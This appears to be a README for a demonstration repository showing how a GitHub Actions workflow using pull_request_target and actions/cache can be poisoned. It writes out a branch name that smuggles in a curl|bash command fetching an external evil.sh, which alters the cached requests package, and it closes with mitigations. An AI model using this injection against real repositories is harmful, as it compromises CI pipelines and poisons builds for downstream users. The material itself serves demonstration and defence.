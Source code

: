 Below is an updated **README.md** incorporating the exact `evil.sh` file you’ve provided via the Gist link, along with instructions on how the attacker would use it. This README gives a cohesive description of the scenario, including the malicious branch name and the exact external payload.

---

## README

### Overview

This repository demonstrates how a GitHub Actions pipeline can be compromised through a malicious pull request that abuses `pull_request_target` and caching. Specifically, an attacker can run their own code in the CI environment and poison the `.pip-cache`, causing future builds to print "You are hacked!" without any further attacker involvement.

**Key points:**

- The pipeline uses `pull_request_target`.
- The workflow uses `actions/cache` to store Python dependencies in `.pip-cache`.
- The attacker’s malicious code, hosted externally, modifies the cached `requests` dependency to print "You are hacked!" whenever `requests` is imported.
- After poisoning the cache, subsequent main branch builds restore the maliciously altered dependencies and display the hacked message.

### The Attacker’s Payload

The attacker hosts a malicious script (`evil.sh`) externally. The provided script is available at:

```
https://gist.githubusercontent.com/colek42/0a6254d21b98e7a437d568126e1d261c/raw/ec71ca09b8f0bede20547679315f5213c638d444/evil.sh
```

**What `evil.sh` Does:**

1. It locates the `requests` package in `.pip-cache`.
2. It prepends a `print("You are hacked!")` statement to `requests/__init__.py`.
3. This ensures that any future import of `requests` will display the hacked message.

### The Malicious Branch Name

To run `evil.sh`, the attacker crafts a PR from a branch name that executes a `curl|bash` payload. For example:

```
$({curl,-sSfL,https://gist.githubusercontent.com/colek42/0a6254d21b98e7a437d568126e1d261c/raw/ec71ca09b8f0bede20547679315f5213c638d444/evil.sh}|bash)
```

When the CI workflow encounters `git pull origin $branch`, it substitutes this malicious branch name, thus fetching and executing `evil.sh` during the `pull_request_target` event.

### Steps to Reproduce (High-Level)

1. **Initial Setup:**
   - You set up this repository with a simple Python application in `src/`.
   - `requirements.txt` includes `requests`.
   - The `ci.yml` workflow uses `pull_request_target` and `actions/cache`.

2. **Initial Run:**
   - On push to `main`, the workflow runs, installs `requests`, and caches it.  
   - `python src/main.py` prints “Hello, world!” normally.

3. **Attacker’s PR:**
   - The attacker creates a PR from a maliciously named branch as described.
   - The CI runs `pull_request_target`, executes `git pull origin $branch`, and thus runs `evil.sh`.
   - `evil.sh` poisons `.pip-cache` by modifying `requests/__init__.py` to print “You are hacked!”.

4. **After the Attack:**
   - Merging the PR or simply triggering another run on `main` restores the now-poisoned cache.
   - `requests` is imported again, but this time it prints “You are hacked!” before returning.

### Observing the Result

After the cache is poisoned, any new run on `main` that imports `requests` will display:

```
You are hacked!
Hello, world!
```

This shows the persistent compromise carried forward by the cached dependencies.

### Cleanup and Mitigation

- To reset the environment, modify `requirements.txt` (e.g., add a blank line) to change the cache key and force a fresh dependency install.  
- Remove or avoid `pull_request_target` for untrusted code.  
- Validate file integrity or use supply chain security tools (like Witness) to detect unexpected modifications.
